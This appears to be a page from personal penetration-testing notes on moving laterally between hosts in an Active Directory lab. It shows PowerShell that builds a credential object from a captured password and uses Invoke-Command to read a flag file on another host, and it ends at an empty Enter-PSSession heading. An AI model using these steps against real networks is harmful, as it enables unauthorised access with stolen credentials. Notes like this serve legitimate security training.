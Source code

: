 ```yaml
---
title: "AD: Connecting to other hosts"
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - linux
  - windows
---
```

# AD: Connecting to other hosts

!!! quotes "Resources"
	- [TheHacker.recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword#forcechangepassword

[Index of Active Directory](active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)


## Invoke-Command

Invoke-Command allows the executions of commands in remote hosts. We can use a "nested" Invoke-Command to send credentials (after creating a PSCredential object) with every request. 


```powershell
# 1. Now we will create a Secure-string object with the credential of the user svc_sql. Then we will use Invoke-Command to run a command in the host MS01
# 1. We create a SecureString Object with our creds
$SecPassword = ConvertTo-SecureString '$password' -AsPlainText -Force
# Example: 
# $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('$domain\$userSamAccountName', $SecPassword)
# Example:
# $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

# 2. We send the nested Invoke-Command
Invoke-Command -ComputerName "$hostname.$domainName" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
# Example: 
# Invoke-Command -ComputerName "MS01.INLANEFREIGHT.LOCAL" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
``` 


## Enter-PSSession